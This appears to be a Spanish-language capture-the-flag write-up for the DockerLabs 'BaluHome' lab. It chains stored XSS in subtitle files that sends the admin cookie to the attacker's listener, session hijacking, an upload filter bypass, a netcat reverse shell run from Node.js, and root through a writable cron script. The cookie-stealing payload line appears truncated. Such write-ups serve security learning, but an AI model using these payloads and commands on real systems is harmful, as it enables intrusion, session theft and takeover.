









# Baluhome DockerLabs (Intermediate)

# Contexto de la maquina
## Trayectoria BaluHome

<figure><figcaption></figcaption></figure>

## Descripción

**BaluHome** es una máquina Linux de dificultad **Intermediate** en DockerLabs que simula una plataforma de vídeo (**BaluTube**), similar a YouTube, construida con Node.js. La cadena de compromiso combina tres vulnerabilidades web encadenadas para obtener RCE y una escalada clásica por script de cron con permisos de grupo.

El acceso inicial parte de un **XSS almacenado** en los archivos de subtítulos `.vtt` de los vídeos, que se usa para robar la cookie de sesión del administrador mediante un ataque de phishing interno. Con la sesión del admin se accede al panel de administración, donde un **bypass de Content-Type** en la subida de miniaturas permite subir un script Node.js malicioso que da RCE como `www-data`. Desde ahí, las credenciales del usuario `balutin` están en texto plano en el `Dockerfile`. La escalada final a `root` se realiza mediante la modificación de un script de backup que el crontab de root ejecuta cada minuto, accesible en escritura gracias a que `balutin` pertenece al grupo `mantenimiento`.

**Objetivo**

- Explotar el XSS almacenado en subtítulos `.vtt` para robar la cookie del administrador.
- Acceder al panel de administración y bypassear el filtro de subida de miniaturas.
- Obtener RCE como `www-data` mediante un script Node.js malicioso.
- Extraer las credenciales de `balutin` del `Dockerfile`.
- Modificar el script de backup ejecutado como `root` para escalar privilegios.

**Tipo de máquina**

- Plataforma: DockerLabs
- Sistema operativo: Linux (Debian)
- Categoría principal: Web / Linux Privilege Escalation
- Componentes involucrados:
    - XSS almacenado en archivos `.vtt` de subtítulos.
    - Robo de cookie de sesión via phishing interno.
    - Bypass de filtro de tipo de archivo por Content-Type.
    - RCE mediante script Node.js subido como miniatura.
    - Credenciales en texto plano en `Dockerfile`.
    - Script de cron ejecutado como `root` modificable por grupo.

**Habilidades y técnicas evaluadas**

- Enumeración de servicios con Nmap.
- Registro y exploración de aplicación web Node.js.
- Identificación y explotación de XSS almacenado en subtítulos VTT.
- Exfiltración de cookies via XSS con fetch y Base64.
- Phishing interno a través de mensajería de la aplicación.
- Secuestro de sesión mediante sustitución de cookie.
- Bypass de filtro de subida de archivos modificando Content-Type con BurpSuite.
- RCE mediante ejecución de script Node.js en servidor Express.
- Tratamiento y estabilización de TTY.
- Lectura de credenciales en texto plano desde Dockerfile.
- Reutilización de credenciales para pivote de usuario.
- Identificación de permisos de grupo en scripts de cron.
- Escalada de privilegios mediante modificación de script ejecutado como root.
## Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>

## Instalación

Cuando obtenemos el `.zip` lo pasamos al entorno de trabajo y lo descomprimimos:

```shell
unzip baluhome.zip
```

Montamos la máquina con el script de despliegue automático de DockerLabs:

```shell
bash auto_deploy.sh baluhome.tar
```

Respuesta:

```
Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Cuando terminemos le damos a `Ctrl+C` para eliminar el contenedor.
# Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Respuesta:

```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-29 10:10 +0000
Nmap scan report for 172.17.0.2
Host is up (0.000041s latency).

PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js (Express middleware)
|_http-title: BaluTube
```

Solo un puerto abierto: el **3000**, que aloja la aplicación web **BaluTube** construida con Node.js y Express.
## Enumeración web

Accedemos a la aplicación:

```
URL = http://<IP>:3000/
```

Respuesta:

<figure><figcaption></figcaption></figure>

Registramos una cuenta y accedemos:

<figure><figcaption></figcaption></figure>

Una vez con sesión iniciada, vemos la interfaz principal:

<figure><figcaption></figcaption></figure>
## Descubrimiento del vector de ataque

El botón `Subir` nos lleva al formulario de subida de vídeos:

<figure><figcaption></figcaption></figure>

La aplicación simula el flujo de subida de YouTube. Probamos varias técnicas de File Upload Attack para subir archivos no permitidos directamente en el campo de vídeo, pero el filtro las bloquea.

Al subir un vídeo legítimo, la página del vídeo muestra una opción adicional llamativa: subir un archivo `.vtt` de subtítulos.

<figure><figcaption></figcaption></figure>

Los archivos **WebVTT** (`.vtt`) son archivos de texto que definen pistas de subtítulos para vídeos HTML5. Si el servidor renderiza su contenido directamente en el DOM sin sanitizarlo, podríamos inyectar HTML o JavaScript dentro de las líneas de subtítulo.
# XSS almacenado en subtítulos VTT

<figure><figcaption></figcaption></figure>

## Verificación del XSS

Creamos un `.vtt` de prueba con un payload básico de detección en el campo de texto del subtítulo:

```bash
nano test.vtt

# Dentro del nano:
WEBVTT

1
00:00:01.000 --> 00:00:05.000
<script>alert(1)</script>
```

Lo subimos al vídeo. La página del vídeo ejecuta el JavaScript:

<figure><figcaption></figcaption></figure>

El `alert(1)` se ejecuta correctamente. El contenido del `.vtt` se renderiza sin sanitización, confirmando XSS almacenado.
## Robo de cookie de sesión del administrador

Dado que el XSS es almacenado, cualquier usuario que visite el vídeo verá el script ejecutarse en su navegador. Si conseguimos que el administrador visite la URL del vídeo, podremos robar su cookie de sesión.

Preparamos un `.vtt` malicioso que usa `fetch()` para enviar la cookie del visitante a nuestro servidor, codificada en Base64 para evitar problemas con caracteres especiales en la URL:

```bash
nano cookies.vtt

# Dentro del nano:
WEBVTT

1
00:00:01.000 --> 00:00:30.000
/?cookies='+btoa(document.cookie))">
```

Lo subimos al vídeo. La URL del vídeo infectado queda así:

```
URL = http://<IP>:3000/video/17
```

Levantamos el servidor de escucha:

```bash
python3 -m http.server 80
```
## Phishing interno al administrador

La aplicación tiene un sistema de mensajería interno. Accedemos a él y buscamos al usuario `admin`:

<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>

Le enviamos la URL del vídeo infectado directamente por mensaje, confiando en que el bot de administrador la visitará automáticamente. Al poco, en el servidor de escucha recibimos:

```
172.17.0.2 - - [29/Jul/2026 10:53:34] "GET /?cookies=YmFsdXR1YmUuc2lkPXMlM0F0OTM2QVd4Um5wVGEwSUlVRWRtN2VvTlFZWFNRZG1yay4lMkY4UWFmNGgxVnpKMjMwdk5sOGJON20yRWg4RE8lMkI0clN2ek1Dc2NLJTJGNFlz HTTP/1.1" 200 -
```

Decodificamos el Base64 recibido:

```bash
echo "YmFsdXR1YmUuc2lkPXMlM0F0OTM2QVd4Um5wVGEwSUlVRWRtN2VvTlFZWFNRZG1yay4lMkY4UWFmNGgxVnpKMjMwdk5sOGJON20yRWg4RE8lMkI0clN2ek1Dc2NLJTJGNFlz" | base64 -d -w0
```

Respuesta:

```
balutube.sid=s%3At936AWxRnpTa0IIUEdm7eoNQYXSQdmrk.%2F8Qaf4h1VzJ230vNl8bN7m2Eh8DO%2B4rSvzMCscK%2F4Ys
```
## Secuestro de sesión del administrador

En el navegador, abrimos las DevTools (`F12`) → `Storage` → `Cookies` y sustituimos el valor actual de `balutube.sid` por la cookie capturada:

<figure><figcaption></figcaption></figure>

Recargamos la página y veremos que ahora somos `admin`:

<figure><figcaption></figcaption></figure>

Accedemos a las funciones del panel de administración:

<figure><figcaption></figcaption></figure>
# Escalate user www-data

<figure><figcaption></figcaption></figure>

## Bypass del filtro de miniaturas

Como admin, el panel permite modificar las miniaturas de los vídeos. Intentamos subir directamente un archivo HTML y JavaScript para obtener RCE, pero el servidor lo rechaza. Lo que sí valida el servidor es el campo `Content-Type` de la petición multipart.

Interceptamos la petición de subida con **BurpSuite**:

```
POST /admin/thumbnails/18 HTTP/1.1
...
------geckoformboundary...
Content-Disposition: form-data; name="thumbnail"; filename="payload.html"
Content-Type: text/html

<html>...</html>
```

El servidor rechaza el archivo porque el `Content-Type` es `text/html`. Simplemente cambiamos ese header a `image/jpeg`, manteniendo el mismo contenido malicioso. El servidor solo comprueba el tipo declarado, sin verificar el contenido real del archivo:

```
Content-Disposition: form-data; name="thumbnail"; filename="payload.html"
Content-Type: image/jpeg     ← cambiado

<html>...</html>
```

La respuesta del servidor es un `302 Found` redirigiendo a `/admin/thumbnails`, lo que confirma que el archivo fue aceptado.
## Obtención de la reverse shell via Node.js

El servidor de BaluTube es una aplicación Node.js con Express. Cuando el servidor carga una miniatura como script (lo cual ocurre porque el archivo subido puede referenciarse y ejecutarse en el contexto de Node.js), podemos aprovechar el módulo `child_process` para lanzar comandos del sistema.

Preparamos el script de reverse shell:

> shell.js

```js
require('child_process').exec('nc -e /bin/sh <IP_ATTACKER> <PORT_ATTACKER>')
```

Nos ponemos a la escucha:

```bash
nc -lvnp <PORT>
```

Subimos `shell.js` usando el mismo bypass de Content-Type en BurpSuite y accedemos al vídeo cuya miniatura hemos reemplazado. El servidor Node.js ejecuta el script y recibimos la conexión:

```
listening on [any] 7777 ...
connect to [192.168.5.131] from (UNKNOWN) [172.17.0.2] 37740
whoami
www-data
```

Somos `www-data`. Sanitizamos la TTY.
## Sanitizacion shell (TTY)

La shell obtenida a través de una reverse shell suele ser muy limitada: no tiene autocompletado, no permite usar atajos de teclado como `Ctrl+C` sin matar la sesión, y en general es bastante incómoda. Por eso realizamos el siguiente proceso para convertirla en una TTY completamente interactiva:

```shell
script /dev/null -c bash
```

```shell
# Suspendemos el proceso con Ctrl+Z
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Consultamos las dimensiones de nuestra terminal local
stty size

# Ajustamos las dimensiones de la shell remota para que coincidan
stty rows <ROWS> columns <COLUMNS>
```
# Escalate user balutin

<figure><figcaption></figcaption></figure>

## Extracción de credenciales desde el Dockerfile

En el directorio de la aplicación (`/app`) encontramos el `Dockerfile`. Los Dockerfiles son archivos de configuración que describen cómo se construye la imagen del contenedor, y a menudo contienen configuraciones de usuarios y contraseñas aplicadas durante la construcción:

```bash
cat Dockerfile
```

Respuesta:

```
RUN groupadd mantenimiento \
    && useradd -m -s /bin/bash -G mantenimiento balutin \
    && echo 'balutin:123123' | chpasswd
```

La instrucción `chpasswd` establece la contraseña del usuario `balutin` en texto plano durante la construcción de la imagen. Probamos esas credenciales:

```bash
su balutin
# Contraseña: 123123
```

Respuesta:

```
balutin@fdf5ddfc4b02:/app$ whoami
balutin
```

Somos `balutin`.
# Escalate Privileges

<figure><figcaption></figcaption></figure>

## Enumeración de grupos y permisos

Comprobamos a qué grupos pertenece `balutin`:

```bash
id
```

Respuesta:

```
uid=1001(balutin) gid=1002(balutin) groups=1002(balutin),1001(mantenimiento)
```

`balutin` pertenece al grupo `mantenimiento`. Buscamos archivos o directorios del sistema que pertenezcan a ese grupo:

```bash
find / -group mantenimiento 2>/dev/null
```
## Análisis del script de backup

En `/opt/balutube-backup/` encontramos:

```
-rwxrwx--- 1 root mantenimiento 758 Jul 14 14:57 backup.sh
```

El script pertenece a `root` pero el grupo `mantenimiento` tiene permisos `rwx` (lectura, escritura y ejecución). Leemos el script:

```bash
cat /opt/balutube-backup/backup.sh
```

Respuesta:

```bash
#!/bin/bash
# Se ejecuta cada minuto via el crontab de root (ver docker/crontab-root).
# Propiedad root:mantenimiento, permisos 770: el grupo "mantenimiento" puede
# leer/escribir/ejecutar este script aunque sea de root.

BACKUP_DIR=/var/backups/balutube
mkdir -p "$BACKUP_DIR"
tar czf "$BACKUP_DIR/backup-$(date +%Y%m%d%H%M%S).tar.gz" -C /app uploads db/balutube.sqlite 2>/dev/null
find "$BACKUP_DIR" -name 'backup-*.tar.gz' -mmin +2 -delete
```

El crontab confirma que se ejecuta como `root` cada minuto:

```bash
cat /app/docker/crontab-root
```

Info:

```
* * * * * /opt/balutube-backup/backup.sh >> /var/log/balutube-backup.log 2>&1
```
## Inyección del payload y escalada a root

Dado que podemos escribir en el script y root lo ejecuta cada minuto, simplemente reemplazamos su contenido por un payload que active el bit SUID en `/bin/bash`. Usamos `set +H` para deshabilitar la expansión de historia de bash, que podría interpretar el `!` en la shebang line como un comando:

```bash
set +H
echo -e "#!/bin/bash\nchmod u+s /bin/bash" > /opt/balutube-backup/backup.sh
```

Esperamos un minuto a que cron lo ejecute y verificamos:

```bash
ls -la /bin/bash
```

Respuesta:

```
-rwsr-xr-x 1 root root 1265648 Sep  6  2025 /bin/bash
```

El bit SUID está activo. Escalamos a `root` con el flag `-p`, que indica a bash que preserve los privilegios del propietario del binario:

```bash
bash -p
```

Respuesta:

```
bash-5.2# whoami
root
```

Ya somos `root`. La máquina está completamente comprometida.

